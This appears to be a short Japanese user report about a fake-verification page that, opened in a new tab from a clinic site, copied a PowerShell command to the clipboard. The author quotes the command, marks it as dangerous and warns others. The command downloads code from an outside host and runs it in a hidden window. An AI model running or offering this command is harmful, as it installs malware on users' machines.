



https://www.dentition-treatment.net/station/ginza/



を閲覧中に新規タブで

https://www.hanaravi.jp/blog/archives/9957



を開かれて



<!--  -->

クリップボードにコピーされていた文字列
なおコメントは私によるもの

```powershell
# 危険
powershell -w h -c "iex(irm 'verificationscodes.beer/2ecfd488ad691236' -UseBasicParsing)"; exit <#Verification ID: 2ecfd488ad691236#>
# 危険
```

プログラミングなど始める前の私なら引っかかってる自信ある
